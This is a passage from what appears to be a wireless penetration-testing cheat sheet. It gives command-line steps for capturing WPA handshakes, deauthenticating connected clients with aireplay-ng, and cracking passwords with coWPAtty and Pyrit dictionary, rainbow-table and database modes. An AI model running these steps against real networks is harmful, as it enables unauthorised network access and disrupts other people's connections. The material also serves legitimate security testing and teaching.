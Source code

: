 ```
cowpatty -r <capture> -f <wordlist> -2 -s <ESSID>
```

To use rainbow table mode with coWPAtty, first generate the hashes:

```
genpmk -f <wordlist> -d <hashes filename> -s <ESSID>
```

Run coWPAtty with the generated hashes to recover the WPA password:

```
cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```

### Pyrit<a name="WPA-Pyrit"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```

Use Pyrit to sniff on the monitor mode interface, saving the capture to a file:

```
pyrit -r <interface> -o <capture> stripLive
```

Deauthenticate a connected client to force it to complete the 4-way handshake:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Run Pyrit in dictionary mode to crack the WPA password:

```
pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough
```

To use Pyrit in database mode, begin by importing your wordlist:

```
pyrit -i <wordlist> import_passwords
```

Add the ESSID of the access point to the Pyrit database:

```
pyrit -e <ESSID> create_essid
```

Generate the PMKs for the ESSID:

```
pyrit -r <capture> -b <AP MAC> attack_db
```
 
## Find Hidden SSID<a name="HiddenSSID"></a>

Set your wireless card in monitor mode.
